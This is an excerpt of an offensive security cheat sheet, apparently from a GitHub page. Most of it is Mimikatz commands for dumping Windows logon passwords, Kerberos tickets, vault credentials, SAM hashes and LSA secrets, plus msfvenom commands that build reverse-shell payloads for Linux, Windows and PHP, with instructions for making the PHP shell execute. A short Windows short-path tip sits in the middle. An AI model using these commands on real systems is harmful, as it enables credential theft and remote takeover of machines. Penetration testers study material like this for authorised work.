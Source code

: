 ```
privilege::debug
```

```
sekurlsa::logonpasswords
sekurlsa::tickets /export

kerberos::list /export

vault::cred
vault::list

lsadump::sam
lsadump::secrets
lsadump::cache
```

------

## MISCELLANEOUS

### Get a Windows path without spaces

```
# path.cmd
@echo off
echo %~s1

path.cmd "C:\Program Files (x86)\Common Files\test.txt"
C:\PROGRA~2\COMMON~1\test.txt -> Valid path without spaces
```

------

## MSFVENOM PAYLOAD

### Linux

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf
```

### Windows

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe
```

### PHP

```
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php

Then we need to add the <?php at the first line of the file so that it will execute as a PHP webpage
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```
